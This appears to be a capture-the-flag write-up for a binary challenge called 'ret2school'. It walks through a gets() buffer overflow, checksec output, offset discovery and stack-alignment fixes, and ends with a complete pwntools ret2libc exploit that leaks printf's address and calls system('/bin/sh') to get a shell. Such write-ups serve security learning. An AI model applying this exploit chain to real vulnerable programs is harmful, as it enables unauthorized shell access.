 Main-function of the binary looks like this
```c
int main(EVP_PKEY_CTX *param_1){
  char input [32];
  init(param_1);
  printf("Send me your homework: ");
  gets(input);
  return 0;
}
```
and the binary has the following protections
```bash
$ checksec ./ret2school
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
```
{: .nolineno }

Since we have the `gets` function gathering our input, and no stack-canary or PIE, this looks like a simple ret2libc attack where we find the base-address of ASLR before calling `system("/bin/sh")`.

We find the offset to be 40 by sending a cyclic pattern as input, and checking the offset into the cyclic pattern for the address we crash at, which in this case is `0x6161616161616166`
![Ret2school Offset](ret2school_offset.png)

Since we don't have a `puts` function to leak the GOT address of we leak for `printf` instead. In this case it leads to some extra stack-misalignments. Identifying stack-misalignment can be done by checking the instruction which we crash on, which in this case were `movaps`
![Stack Misalignment Crash](stack_misaligned.png)

This sometimes happen on 64-bit binaries, and can be solved by adding an extra `pack(ret)` in the payload to align the stack. I had to align the stack a total of 3 times for the full exploit to work.

The exploit ended up being
```python
offset = 40
libc = ELF('./libc.so.6', checksec=False)
ret = 0x40050e

io = start()

rop = ROP(exe)
rop.raw(b"A"*offset)
rop.raw(ret)
rop.printf(exe.got.printf)
rop.raw(ret)
rop.main()

io.recvuntil(b"homework: ")
io.sendline(rop.chain())

printf = u64(io.recvuntil(b"Send")[:-4].rstrip().ljust(8, b"\x00"))
log.success(f"printf: {hex(printf)}")
libc.address = printf - libc.symbols.printf
log.success(f"libc: {hex(libc.address)}")

rop = ROP(libc)
rop.raw(b"A"*offset)
rop.raw(ret)
rop.system(next(libc.search(b"/bin/sh\x00")))

io.recvuntil(b"homework: ")
io.sendline(rop.chain())
```